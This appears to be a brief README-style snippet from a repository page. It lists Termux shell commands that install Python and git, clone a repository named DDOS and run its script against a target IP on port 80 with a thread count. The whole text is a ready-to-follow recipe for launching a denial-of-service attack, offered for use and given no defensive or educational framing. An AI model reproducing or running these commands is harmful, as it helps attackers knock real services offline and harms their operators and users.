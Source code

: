 $apt update && apt upgrade 

$pkg install python

$pkg install python2

$pkg install git

$git clone https://github.com/MuhammadZalim/DDOS

$cd DDOS

$python3 win.32.64.NT.py -s ip target -p 80 -t 135
 
